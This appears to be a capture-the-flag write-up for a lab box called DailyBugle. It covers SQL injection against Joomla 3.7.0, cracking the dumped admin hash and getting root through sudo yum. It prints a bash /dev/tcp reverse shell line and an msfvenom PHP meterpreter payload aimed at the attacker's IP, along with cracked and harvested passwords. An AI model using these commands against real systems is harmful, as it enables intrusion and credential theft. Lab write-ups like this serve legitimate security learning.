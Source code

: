 ## DailyBugle
_I did this Box in multiple steps and not in 1 sitting, so the IP might change throughout_

First lets do some basic Recon based on the webpage we can see at the given IP.

What WebServer is serving us?
``
Server:Apache/2.4.6 (CentOS) PHP/5.6.40
``

### We can see its joomla, lets see if we can find which version that is:
I used google to find some simple Joomla information, see if we can find the version by checking the joomla.xml

Google shows this URL might be accessible:
```
http://10.10.244.64/administrator/manifests/files/joomla.xml
Shows version : 3.7.0

We also see a username for the article:

Article written by :
  Written by Super User
```

Now that we have the Joomla version, we can check exploitDB.com if something is known, and there is a SQLmap (SQLI Exploit in this version).

This will be the first time i _really_ use SQL map

## SqlMAP :
After a lot of trial and error this is the steps i took to get login Information for Super User.

    1. Check all databases with -DBS
      --dbs
    2. See if we can find users with --users --passwords
      See only localhost is allowed
    3. See which Columns
      --tables for `joomla`
    4. Google which tables exist and which hold user data.
    5. Enumerate #__users
    6. Find columns, dump password.
```
    Database: joomla
    Table: #__users
    [1 entry]
    +-----+------------+--------------------------------------------------------------+
    | id  | name       | password                                                     |
    +-----+------------+--------------------------------------------------------------+
    | 811 | Super User | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
    +-----+------------+--------------------------------------------------------------+
```
We have the password hash for the Super User! Lets see if we can find out what kind of password this is and then crack it!

`hashid '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'`
Produces:

```
  Analyzing '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
  [+] Blowfish(OpenBSD)
  [+] Woltlab Burning Board 4.x
  [+] bcrypt
```


After some investigation, it seems this is a Bcrypt hash.

`cat superuser.txt
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
john --wordlist=/root/win_downloads/rockyou.txt superuser.txt --format=bcrypt`

```

  spiderman123     (?)

```

i went to /administrator/ and logged in with jonah and spiderman123 as user/pass.

now to make a reverse shell:

bash -i >& /dev/tcp/10.14.12.121/6666 0>&1

Linux version 3.10.0-1062.el7.x86_64 (mockbuild@kbuilder.bsys.centos.org) (gcc version 4.8.5 20150623 (Red Hat 4.8.5-36) (GCC) ) #1 SMP Wed Aug 7 18:08:02 UTC 2019


Messing with dirtyc0w, didnt work.

linpeas found:
public $host = 'localhost';
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu';
	public $db = 'joomla';


After i came back to it after a while (Got stuck gaming Kappa) i figured i'd try to make a metepreter shell with msfvenom and msfconsole, this was quite simple in the end:

Generate PHP payload:
  `msfvenom -p php/meterpreter/reverse_tcp lhost=10.14.12.121 lport=4444`

Open Metasploit Metepreter Handler:
  `set payload php/meterpreter/reverse_tcp`
  `set lhost 10.14.12.121`
  `set lport 4444`
  `exploit`

_reference : https://www.hackingarticles.in/joomla-reverse-shell/ _
Then run the Preview.


With the details we got from the Configuration PHP we will try to login to the local user account.
  su - jjameson
  password: nv5uz9r3ZEDzVjNu (From the config file)

Now that we are user, we check which files sudo can run without password:
  `sudo -l`

This Shows
```
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum

```
If we check GTFObins for Yum, we find a small little script we can copy-paste to escape to root:

  https://gtfobins.github.io/gtfobins/yum/
After running this we are ROOT.

cat /root/root.txt

Gives us the answer
